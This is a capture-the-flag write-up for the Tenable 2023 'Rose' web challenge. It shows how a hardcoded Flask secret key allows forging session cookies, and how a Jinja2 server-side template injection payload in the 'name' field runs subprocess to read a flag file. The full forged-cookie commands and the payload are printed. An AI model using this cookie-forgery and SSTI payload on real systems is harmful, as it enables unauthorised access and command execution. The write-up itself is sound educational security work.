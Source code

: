 ```yaml
---
title: Tenable 2023 - Rose
date: Fri Aug 11 11:44:58 PM +04 2023
categories: [Writeup]
tags: [ctf,tenable,tenable2023,web,cookies]
---
```


## Description

The owner of the site shut down sign ups for some reason, but we've got a backup of the code.

See if you can get access and get /home/ctf/flag.txt

[https://nessus-rose.chals.io/](https://nessus-rose.chals.io/)

[rose.zip](https://nessus.ctfd.io/files/ae8d3607deb808c4eba76a8e4205962e/rose.zip)

## Analysis

From `__init__.py` we can find the signing key for cookies:

```py
app.config['SECRET_KEY'] = 'SuperDuperSecureSecretKey1234!'
```

With this secret key we can forge any cookie. The application doesn't have any cookies, except `session`. To login we need to first know the structure of the session cookie. The easiest way (as someone who doesnt work with flask) was to replicate the environment, do signup, inspect cookie, decode and then craft payload.


Getting the cookie from replicated environment we get the session cookie.<br>
Using [Flask Session Cookie Decoder/Encoder](https://github.com/noraj/flask-session-cookie-manager) we can decode and encode cookies.

```
└─$ flask_session_cookie_manager3.py decode -s 'SuperDuperSecureSecretKey1234!' -c '.eJwljjkSAjEMBP_imECyVof3M1uyLRcEEOwRUfwdU2Qz0xP0O21jj-Oe1nO_4pa2R09r6ixkjbJhxxxgWtUXrL3OQVCVCtVYiiuoNbfoorkI5HDj1nTEGEYdGJoRMTArlgboJMsygROYsDurYcHRKw8QLz5M5kcbpilyHbH_bX715c-Y8YzjTJ8vAswycw.ZNaLaw.But_R_GqnTeBUfdwK2CV1_pM4v8'
{'_fresh': True, '_id': 'd5638c3281d12e087b7a41bdb81d6177393be49a7078ca8ed6729602ea85cc7feff83d050c8335055719c01a364483da30865aa578191fdb5f06a9af861a37c1', '_user_id': '1', 'name': 'test'}

└─$ flask_session_cookie_manager3.py encode -s 'SuperDuperSecureSecretKey1234!' -t "{'_fresh': True, '_user_id': '1', 'name': '1337'}"                                                                    
eyJfZnJlc2giOnRydWUsIl91c2VyX2lkIjoiMSIsIm5hbWUiOiIxMzM3In0.ZNaMOQ.tS64hJBaLdncgfUYTdohzmXtMQU
```

After changing the session cookie our name get's changed to `1337`

We are able to login, now to find attack vector.

This function just screams [SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

{% raw %}
```py
@main.route('/dashboard')
@login_required
def dashboard():
    template = '''
{% extends "base.html" %} {% block content %}
<h1 class="title">
    Welcome, '''+ session["name"] +'''!
</h1>
<p> The dashboard feature is currently under construction! </p>
{% endblock %}
'''
    return render_template_string(template)
```
{% endraw %}

## Solution

Craft session cookie with payload inside `name` and read `/home/ctf/flag.txt` (From description).

{% raw %}
```bash
# {{
#     request.
#     application.
#     __globals__.
#     __builtins__.
#     __import__('subprocess')
#     .check_output(['cat', '/home/ctf/flag.txt'])
# }}

└─$ flask_session_cookie_manager3.py encode -s 'SuperDuperSecureSecretKey1234!' -t "{'_fresh': True, '_user_id': '1', 'name': '{{request.application.__globals__.__builtins__.__import__(\'subprocess\').check_output([\'cat\', \'/home/ctf/flag.txt\'])}}'}"
.eJwlzEEKwyAQQNGrlNmYQDB0m6uUMhg7iVITrTMDBfHuDXT3_uY3wK0SB1ikKk2AylQxvmCBO0xwuoMutlbpo8RiXSkpeicxnxZxT3l1iREvrxqTxPMf8Si5CuJgWNdSsydmM1ofyL8xqxSV4WGuj5luZg75oNnLNm_J7Va-Yp5j79B_VIg4MA.ZNaMFA.DiVZS8FzTtf4PSCUfhnOVBG5YGA
```
{% endraw %}

Change cookie:

```html
<h1 class="title">
    Welcome, b&#39;flag{wh4ts_1n_a_n4m3_4nd_wh4ts_in_y0ur_fl4sk}\n&#39;!
</h1>
<p> The dashboard feature is currently under construction! </p> 
```

> Flag: flag{wh4ts_1n_a_n4m3_4nd_wh4ts_in_y0ur_fl4sk}
{: .prompt-tip }